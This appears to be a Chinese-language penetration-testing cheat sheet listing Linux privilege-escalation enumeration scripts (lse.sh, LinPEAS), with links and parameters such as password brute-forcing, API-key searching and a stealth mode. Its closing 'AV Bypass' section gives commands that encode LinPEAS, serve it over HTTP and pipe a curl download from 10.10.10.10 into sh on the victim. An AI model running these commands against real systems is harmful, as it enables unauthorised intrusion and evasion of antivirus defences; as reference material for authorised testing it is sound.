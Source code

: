 ...............................
# lse.sh
Link: (https://github.com/diego-treitos/linux-smart-enumeration)
Usage: 直接上传执行
For: Linux
...............................
# LinPEAS
Link:https://github.com/carlospolop/PEASS-ng/tree/master/linPEAS
For: linux权限提升建议脚本
Usage: 直接上传执行，没有依赖项。
Parameters: 
``` 
    -a（除正则表达式外的所有检查） - 这也将在 1 分钟内执行进程检查，将在文件中搜索更多可能的哈希值，并使用带有 top2000 密码的 `su` 暴力破解每个用户。 
    -e （extra enumeration） - 这将执行默认情况下避免的枚举检查  
    -r （regex checks） - 这将在文件系统中搜索数百个不同平台的 API 密钥
    -s （superfast & stealth） - 这将绕过一些耗时的检查 - 隐身模式（不会将任何内容写入磁盘）
    -P （Password） - 传递将用于 `sudo -l` 和暴力破解其他用户的密码
    -D （Debug） - 打印有关未发现任何内容的检查以及每次检查所花费时间的信息 
    -d/-p/-i/-t （本地网络枚举） - Linpeas 还可以发现和端口扫描本地网络
```
AV Bypass:
```
#open-ssl encryption
openssl enc -aes-256-cbc -pbkdf2 -salt -pass pass:AVBypassWithAES -in linpeas.sh -out lp.enc
sudo python -m SimpleHTTPServer 80 #Start HTTP server
curl 10.10.10.10/lp.enc | openssl enc -aes-256-cbc -pbkdf2 -d -pass pass:AVBypassWithAES | sh #Download from the victim

#Base64 encoded
base64 -w0 linpeas.sh > lp.enc
sudo python -m SimpleHTTPServer 80 #Start HTTP server
curl 10.10.10.10/lp.enc | base64 -d | sh #Download from the victim
```


